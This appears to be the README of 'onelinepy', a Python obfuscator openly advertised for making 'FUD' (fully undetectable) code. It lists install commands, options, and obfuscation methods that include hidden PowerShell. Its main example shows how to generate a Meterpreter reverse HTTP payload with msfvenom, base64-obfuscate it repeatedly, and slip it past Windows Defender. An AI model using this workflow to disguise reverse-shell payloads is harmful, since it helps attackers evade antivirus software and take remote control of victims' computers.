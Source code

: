 # onelinepy
## Python Obfuscator for FUD Python Code.

<img src='oneline.png' />

### Download & Run

```sh
git clone https://github.com/spicesouls/onelinepy
cd onelinepy
chmod +x setup.sh
./setup.sh
onelinepy
```

### Usage Guide

<pre>
<b>              _ _                 </b>
<b>  ___ ___ ___| |_|___ ___</b><font color="#FFE82C"><b> ___ _ _</b></font>
<b> | . |   | -_| | |   | -_</b><font color="#FFE82C"><b>| . | | |</b></font><b>     </b><font color="#FFE82C"><b>Python</b></font>
<b> |___|_|_|___|_|_|_|_|___</b><font color="#FFE82C"><b>|  _|_  |</b></font><b>     </b><font color="#729FCF"><b>Obfuscator</b></font>
<b>                         </b><font color="#FFE82C"><b>|_| |___|</b></font>

<b>usage: oneline.py [-h] [-m M] [-i I] [--script SCRIPT] [--code CODE] [--list] [--output OUTPUT]</b>

<b>optional arguments:</b>
<b>  -h, --help       show this help message and exit</b>
<b>  -m M             Obfuscating Method (i.e, -m /one_line/base64)</b>
<b>  -i I             Iterations For Obfuscation.</b>
<b>  --script SCRIPT  File path of Python file to Obfuscate.</b>
<b>  --code CODE      Python code to Obfuscate.</b>
<b>  --list           List Obfuscating Methods.</b>
<b>  --output OUTPUT  Output File.</b>
</pre>

### Example: Creating FUD Meterpreter Python Payload

1. Generate Python Payload:

`msfvenom --payload python/meterpreter_reverse_http LHOST=... LPORT=... > payload.txt`

2. Obfuscate Payload

`onelinepy -m /one_line/base64 --script payload.txt -i 3 --output obfuscated_payload.txt`

3. Profit! The Obfuscated Payload works against Windows Defender.

### More Examples

```sh
onelinepy -m /one_line/base64 --script payload.py -i 3
```

```sh
onelinepy -m /one_line/hex --code "print('HEX!')"
```

### Obfuscation Method List

<pre><b>              _ _                 </b>
<b>  ___ ___ ___| |_|___ ___</b><font color="#FFE82C"><b> ___ _ _</b></font>
<b> | . |   | -_| | |   | -_</b><font color="#FFE82C"><b>| . | | |</b></font><b>     </b><font color="#FFE82C"><b>Python</b></font>
<b> |___|_|_|___|_|_|_|_|___</b><font color="#FFE82C"><b>|  _|_  |</b></font><b>     </b><font color="#729FCF"><b>Obfuscator</b></font>
<b>                         </b><font color="#FFE82C"><b>|_| |___|</b></font>


<b>  Obfuscators ( * = May cause Syntax Errors )</b>
<b> -=============-</b>
<b> 0</b>	<b>/one_line/hex</b>
<b> 1</b>	<b>/one_line/base64</b>
<b> 2</b>	<b>/one_line/base32</b>
<b> 3</b>	<b>/one_line/gunzip*</b>
<b> 4</b>	<b>/one_line/rot13*</b>
<b> 5</b>	<b>/cmd/command</b>
<b> 6</b>	<b>/cmd/powershell</b>
<b> 7</b>	<b>/cmd/powershellhidden</b></pre>
